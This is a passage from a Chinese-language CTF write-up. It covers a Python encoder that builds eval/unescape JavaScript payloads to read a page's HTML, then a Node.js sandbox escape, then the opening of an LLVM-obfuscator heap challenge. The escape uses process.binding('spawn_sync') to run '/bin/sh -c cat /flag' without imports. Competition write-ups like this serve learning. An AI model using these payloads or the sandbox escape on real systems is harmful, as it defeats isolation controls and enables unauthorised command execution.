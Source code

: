 ```python
while True:
    a = input()
    print('eval(1+unescape(/' +
          ''.join('%%%02x' % ord(a)
                  for a in ('1;' + a + '//')) +
          '/)+1)')
```



chrome那个环境，我们用上面的方法拿到`document.documentElement.innerHTML`，也就是往服务器提交一个`eval(1+unescape(/%31%3b%64%6f%63%75%6d%65%6e%74%2e%64%6f%63%75%6d%65%6e%74%45%6c%65%6d%65%6e%74%2e%69%6e%6e%65%72%48%54%4d%4c%2f%2f/)+1)`，拿到源码以后直接就看到flag了。



本来以为node环境也不难，直接`require("child_process").execSync("ls /")`之类的，结果发现我小看它了。那个policy.json还真是个沙盒，禁止了所有的import，统统会提示

```
Error [ERR_MANIFEST_DEPENDENCY_MISSING]: Manifest resource file:///app/backend/runner.js does not list XXXX as a dependency specifier for conditions: node, import, node-addons
```

这里我又卡了很久很久，包括打出globalThis所有的变量，一个一个看都没找到有什么思路能让我去读文件或者跑命令。process是最有可能的，但我看那个文档也没找到什么地方可以用。直到查到了这个博客：https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/

他提到process下有一个无文档私有api, 叫做bindings，暴露了所有c interface。他举的例子是fs，不过我们一步到位，用`spawn_sync`来。跑去翻[node源代码](https://github.com/nodejs/node/blob/main/lib/child_process.js)，看看`child_process`是怎么调用底层接口的，不过发现也就是多完善了一下参数，然后直接去调用了。我们稍微本地hook一下这个binding，就能拿到完整的参数了：

```js
process.binding('spawn_sync').spawn({ maxBuffer: 1048576,  shell: true,  args: [ '/bin/sh', '-c', 'cat /flag' ],  cwd: undefined,  detached: false,  envPairs: ['PWD=/'], file: '/bin/sh', windowsHide: false, windowsVerbatimArguments: false, killSignal: undefined, stdio: [ { type: 'pipe', readable: true, writable: false }, { type: 'pipe', readable: false, writable: true }, { type: 'pipe', readable: false, writable: true } ] }).output[1].toString()
```

以上代码就可以无import实现`child_process.execSync`的效果，于是就可以直接解决本题。

后来看到后半场给的提示，让我看process文档，问题是这东西也不在process的文档里啊？





## 混淆器

这题没有那么难，虽然是堆题，但出题人处处闪耀着人性的光辉（bushi），人工降低了很多的难度。

之前我没做过和堆有关系的pwn（事实上其他pwn也没怎么做过），在[ctf wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/introduction/) 上可以找到一些入门的知识，现学现卖。

LLVM的数据结构在官网上能够找到一个[详尽的文档](https://llvm.org/doxygen/) 。

题目的漏洞不难找，后半场给的提示“在分支的处理中”，分支指令的处理包含如下的代码：

![image-20221126162914870](./images/image-20221126162914870.png)
